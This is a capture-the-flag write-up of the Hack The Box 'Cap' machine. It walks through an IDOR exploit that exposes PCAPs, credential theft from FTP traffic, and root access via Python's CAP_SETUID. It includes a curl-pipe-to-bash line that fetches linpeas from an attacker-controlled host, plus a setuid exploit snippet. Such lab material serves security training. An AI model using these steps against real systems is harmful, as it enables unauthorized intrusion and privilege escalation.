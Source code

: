### **HTB Machine "Cap" Write-up**

#### **1. Machine Overview**
- **Difficulty**: Easy (Linux)
- **Key Services**: HTTP (Network Capture Tool), FTP, SSH
- **Critical Vulnerabilities**: IDOR → Cleartext Credentials → CAP_SETUID Privilege Escalation

#### **2. Attack Summary**
1. **Enumeration**: Nmap scan reveals open ports (21/FTP, 22/SSH, 80/HTTP).
2. **IDOR Exploit**: Parameter tampering to download unauthorized PCAPs.
3. **PCAP Analysis**: FTP/SSH credentials disclosure.
4. **Foothold**: SSH access using stolen credentials.
5. **Privilege Escalation**: Exploiting Python's `CAP_SETUID` capability.

---

#### **3. IDOR Vulnerability: Technical Details**
**Definition**:  
Insecure Direct Object Reference (IDOR) allows unauthorized resource access by manipulating object identifiers.

**Practical Example**:  
```
http://10.10.10.56/data/[ID]
```
Modifying `[ID]` (e.g., from 2 to 1/3) enables downloading other users' PCAPs.

**Impact**:  
- FTP credentials exposure: `user:password123!` 
- Network sensitive data leakage

**Prevention**:  
- Implement server-side authorization checks
- Use non-sequential UUIDs
- Encrypt network traffic (e.g., SFTP instead of FTP)

---

#### **4. Exploit Walkthrough**

**Step 1: Initial Scanning**  
```bash
nmap -sV -Pn 10.10.10.56
```
**Findings**:  
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1
80/tcp open  http    gunicorn
```

**Step 2: IDOR Discovery**  
1. Visit `http://10.10.10.56/data/2`
2. Manually tamper with ID parameter:
   ```
   http://10.10.10.56/data/1 → Another user's PCAP
   ```

**Step 3: PCAP Analysis with Wireshark**  
- FTP filter: `ftp.request.command == "PASS"`
- Exposed credentials:  
  ```
  USER: utente
  PASS: password123!
  ```

**Step 4: SSH Access**  
```bash
ssh utente@10.10.10.56
```

---

#### **5. Privilege Escalation (CAP_SETUID)**
**Vulnerability Identification**:  
```bash
# Creating an HTTP server that serves the contents of the current directory on
# the attacking machine where I downloaded linpeas.sh
python -m http.server 80

# Run linPEAS
curl http://<ATTACKER_IP>/linpeas.sh | bash
```
**Critical Finding**:  
```
╔══════════╣ Capabilities
/usr/bin/python3.8 = cap_setuid+ep
```

**Python Exploit**:  
```python
import os
os.setuid(0)  # Set UID to root (0)
os.system("/bin/bash")
```
**Result**:  
```
root@cap:/home/utente# id
uid=0(root) gid=1000(utente)
```

---

#### **6. Security Recommendations**
1. **FTP**: Replace with SFTP/FTPS
2. **IDOR**: Implement authorization checks
3. **Capabilities**: Remove `CAP_SETUID` from Python
